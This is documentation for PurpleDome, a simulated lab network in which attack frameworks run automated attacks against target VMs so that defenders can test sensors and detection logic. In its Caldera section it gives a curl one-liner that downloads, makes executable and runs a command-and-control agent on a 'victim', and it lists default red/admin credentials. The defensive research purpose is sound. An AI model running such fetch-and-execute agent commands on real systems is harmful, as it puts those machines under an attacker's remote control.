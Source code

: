 ======
Basics
======

Purple Dome is a simulated and automated environment to experiment with hacking - and defense.

PurpleDome is relevant for you:

* If you develop sensors for bolt on security
* If you want to test detection logic for your bolt on security
* If you want to stress test mitigation around your vulnerable apps
* Experiment with hardening your OS or software
* Want to forensically analyse a system after an attack
* Do some blue team exercises
* Want to train ML on data from real attacks

PurpleDome simulates a small busniess network. It generates an attacker VM and target VMs. Automated attacks are then run against the targets.

Depending on which sensors you picked you will get their logs. And the logs from the attacks. Perfect to compare them side-by-side.

Attacks are written as small plugins and control pre-installed tools:

* Kali command line tools
* Caldera commands
* Metasploit

That way your experiments focus on behaviour detection. And not on whack-a-mole games with malware samples.

-------------------

Features
========

* Linux and Windows targets
* VM controller abstracted as plugins
    * Local vagrant based (debug and development)
    * Cloud based
* Attacks as plugins controlling
    * Caldera attacks
    * Kali attacks
    * Metasploit attacks
* Data collection: Attack log and sensor data in parallel with timestamps for matching events
* Vulnerability plugins: Modify the targets before the attack
* Sensor plugins: Write a simple wrapper around your sensor and integrate it into the experiments

Components
==========

The command line tools are the way you will interact with Purple Dome. Those are described in the *CLI* chapter.

The experiments are configured in YAML files, the format is described in the *configuration* chapter. You will also want to create some target VMs. You can do this manually or use Vagrant. Vagrant makes it simple to create Linux targets. Windows targets (with some start configuration) are harder and have an own chapter.

If you want to modify Purple Dome and contribute to it I can point you to the *Extending* chapter. Thanks to a plugin interface this is quite simple.





TODO: What sensors are pre-installed ?
TODO: How to attack it ?
TODO: How to contact the servers (ssh/...) ? Scriptable
TODO: How to run it without sudo ?
TODO: Which data is collected ? How to access it ? How to get data dumps out ?
TODO: Add Linux Server
TODO: Add Mac Server



Data aggregator
---------------

We currently can use logstash

There are several options for data aggregators:

* Fleet OSQuery aggregator: https://github.com/kolide/fleet
* The Hive


Sensors on Targets (most are Windows)
-------------------------------------

Those sensors are not integrated but could be nice to play with:

Palantir Windows Event forwarding: https://github.com/palantir/windows-event-forwarding

Autorun monitoring: https://github.com/palantir/windows-event-forwarding/tree/master/AutorunsToWinEventLog

Palantir OSquery: https://github.com/palantir/osquery-configuration

SwiftOnSecurity Sysmon config: https://github.com/SwiftOnSecurity/sysmon-config


Palantir OSQuery is mixed OS: Windows/Mac Endpoints, Linux Servers


Caldera
-------

Attack framework.

Starting: *python3 server.py --insecure*

Web UI on *http://localhost:8888/*

Credentials: *red/admin*

Documentation: Documentation: https://caldera.readthedocs.io/en/latest/

Installing client on victim (Linux):

server="http://192.168.178.45:8888";curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > sandcat.go;chmod +x sandcat.go;./sandcat.go -server $server -group red -v

Filebeat
--------

Filebeat has a set of modules:

https://www.elastic.co/guide/en/beats/filebeat/6.8/filebeat-modules-overview.html

List modules: *filebeat modules list*

%% TODO: Add OSQueryD https://osquery.readthedocs.io/en/latest/introduction/using-osqueryd/

Logstash
--------

Logstash uses all .conf files in /etc/logstash/conf.d

https://www.elastic.co/guide/en/logstash/current/config-setting-files.html

Alternative: The Hive
---------------------

Sander Spierenburg (SOC Teamlead) seems to be interested in The Hive. So it is back in the game



Repos
-----

* The main part: https://git.int.avast.com/ai-research/purpledome
* Caldera fork to fix bugs: TBD
* Caldera Plugin for statistics: <add public git/avast folder>


Links
-----

* Others detecting this kind of things

    - https://redcanary.com/blog/how-one-hospital-thwarted-a-ryuk-ransomware-outbreak/

